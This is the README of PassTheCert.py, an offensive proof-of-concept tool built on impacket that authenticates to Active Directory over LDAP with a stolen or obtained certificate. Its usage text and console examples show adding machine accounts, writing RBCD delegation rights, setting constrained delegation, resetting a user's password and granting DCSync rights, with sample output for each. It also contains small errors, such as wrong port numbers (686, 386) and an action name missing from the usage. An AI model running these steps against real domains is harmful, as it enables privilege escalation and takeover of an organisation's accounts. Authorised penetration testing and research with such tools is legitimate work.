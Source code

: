 PassTheCert.py
==============

This POC implements LDAP certificate authentication for two impacket scripts:
[addcomputer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py)
and [rbcd.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rbcd.py).
You can perform LDAP certificate authentication both on port 686 and 389 (via a
StarTLS command). Please note that you need a functional LDAPS service on the
targeted domain controller to successfully use StartTLS on the LDAP port.

More information in the [accompanying blog post](https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html).

If you use [Certipy](https://github.com/ly4k/Certipy) to retrieve certificates, you can extract key and cert from the pfx by using:

```console
$ certipy cert -pfx user.pfx -nokey -out user.crt
$ certipy cert -pfx user.pfx -nocert -out user.key
```

Usage
-----

```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

usage: passthecert.py [-h] [-debug] [-port {389,636}]
                      [-action [{add_computer,del_computer,modify_computer,read_rbcd,write_rbcd,remove_rbcd,flush_rbcd,modify_user,whoami}]]
                      [-target sAMAccountName] [-new-pass [Password]] [-elevate] [-baseDN DC=test,DC=local]
                      [-computer-group CN=Computers] [-domain test.local] [-domain-netbios NETBIOSNAME]
                      [-computer-name COMPUTER-NAME$] [-computer-pass password]
                      [-delegated-services cifs/srv01.domain.local,ldap/srv01.domain.local] [-delegate-to DELEGATE_TO]
                      [-delegate-from DELEGATE_FROM] [-dc-host hostname] [-dc-ip ip] -crt user.crt -key user.key

Manage domain computers and perform RBCD attack via LDAP certificate authentication

options:
  -h, --help            show this help message and exit
  -debug                Turn DEBUG output ON
  -port {389,636}       Destination port to connect to. LDAPS (via StartTLS) on 386 or LDAPS on 636.

Action:
  -action [{add_computer,del_computer,modify_computer,read_rbcd,write_rbcd,remove_rbcd,flush_rbcd,modify_user,whoami}]

Manage User:
  -target             sAMaccountnames   sAMAccountName of user to target.
  -new-pass           [Password]        New password of target.
  -elevate                              Grant target account DCSYNC rights

Manage Computer:
  -baseDN             DC=test,DC=local  Set baseDN for LDAP.If ommited, the domain part (FQDN) specified in the account parameter will be used.
  -computer-group     CN=Computers      Group to which the account will be added.If omitted, CN=Computers will be used,
  -domain             test.local        Target domain fqdn
  -domain-netbios     NETBIOSNAME       Domain NetBIOS name. Required if the DC has multiple domains.
  -computer-name      COMPUTER-NAME$    Name of computer to add.If omitted, a random DESKTOP-[A-Z0-9]{8} will be used.
  -computer-pass      password          Password to set to computer. If omitted, a random [A-Za-z0-9]{32} will be used.
  -delegated-services cifs/srv01.domain.local,ldap/srv01.domain.local Services to configure in constrained delegation to configure to the new computer (no space in the list)

RBCD attack:
  -delegate-to        DELEGATE_TO       Target computer account the attacker has at least WriteProperty to
  -delegate-from      DELEGATE_FROM     Attacker controlled machine account to write on the msDS-Allo[...] property (only when using `-action write`)

Authentication:
  -dc-host hostname     Hostname of the domain controller to use. If ommited, the domain part (FQDN) specified in the account
                        parameter will be used
  -dc-ip ip             IP of the domain controller to use. Useful if you can't translate the FQDN.
  -crt user.crt         User's certificate
  -key user.key         User's private key

```

Actions
-------
* Manage Computer
  * `add_computer`: Add a computer to the domain
  * `del_computer`: Delete a computer from the domain
  * `modify_computer`: Modify the password of the computer

* Manage User
  * `forcePWDchange` : Modify the password of the user

* Constrained delegation attack
  * `add_computer -delegated-services`: Add a computer configured with constrained delegated services store in `msDS-AllowedToDelegateTo` new computer's attributes.

* RBCD attack
  * `read_rbcd`: Read `msDS-AllowedToActOnBehalfOfOtherIdentity` and resolve SIDs to `sAMaccountnames`
  * `write_rbcd`: Write new SIDs to `the msDS-AllowedToActOnBehalfOfOtherIdentity`
  * `remove_rbcd`: Remove specific entries
  * `flush_rbcd`: Flush all entries

* Misc
  * `whoami`: Return the user represented by the certificate

Examples
--------

Create a computer via LDAPS:

```console
$ python3 passthecert.py -action add_computer -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1
Impacket v0.10.0 - Copyright 2020 SecureAuth Corporation

[*] Successfully added machine account DESKTOP-CKDRXFUX$ with password dzy3pjZqEH6f4Igql5dp4I5Dx8uA4PrV.
```

Create a computer via LDAPS with custom name/password:

```console
$ python3 passthecert.py -action add_computer -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -computer-name OFFSECMACHINE$ -computer-pass SheSellsSeaShellsOnTheSeaShore
Impacket v0.10.0 - Copyright 2020 SecureAuth Corporation

[*] Successfully added machine account OFFSECMACHINE$ with password SheSellsSeaShellsOnTheSeaShore.
```

Create a computer via LDAPS with custom name and with constrained delegated services configured (cifs and ldap over SRV-MAIL.domain.local):

```console
$ python3 passthecert.py -action add_computer -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -computer-name OFFSECMACHINE$ -delegated-services cifs/SRV-MAIL.domain.local,ldap/SRV-MAIL.domain.local
Impacket v0.10.0 - Copyright 2020 SecureAuth Corporation

[+] Adding constrained delegations to the new computer object: cifs/SRV-MAIL.domain.local,ldap/SRV-MAIL.domain.local
[*] Successfully added machine account OFFSECMACHINE$ with password kUwdbHeuTw64QvaLzUYHrjfgE7hrRigS
```

Add a delegation right via StartTLS on port 389:

```console
$ python3 passthecert.py -action write_rbcd -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -port 389 -delegate-to DESKTOP-CKDRXFUX$ -delegate-from SRV-MAIL$
Impacket v0.10.0 - Copyright 2020 SecureAuth Corporation

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] SRV-MAIL$ can now impersonate users on DESKTOP-CKDRXFUX$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     SRV-MAIL$    (S-1-5-21-XXXXXXXXX-YYYYYYYYYY-WWWWWWWW-1109)
```

Change a password of a user 

```console
$ python3 passthecert.py -action modify_user -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -target user_sam -new-pass
Impacket v0.10.0 - Copyright 2020 SecureAuth Corporation

[*] Successfully changed kpayne password to: ZqIrfZdt02OIq5Ek0ZZPcQKRWKEMEOKB
```

Elevate a user fpr DCSYNC

```console
$ python3 passthecert.py -action modify_user -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -target user_sam -elevate
Impacket v0.10.0 - Copyright 2020 SecureAuth Corporation

[*] Granted user 'user_sam' DCSYNC rights!
```


Credits
-------

- [JaGoTu (@jagotu)](https://twitter.com/jagotu) for [addcomputer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py)
- [Remi Gascou (@podalirius_)](https://twitter.com/podalirius_) and [Charlie Bromberg (@_nwodtuhs)](https://twitter.com/_nwodtuhs) for [rbcd.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rbcd.py)
* [Impacket](https://github.com/SecureAuthCorp/impacket) by [SecureAuth](https://www.secureauth.com/)
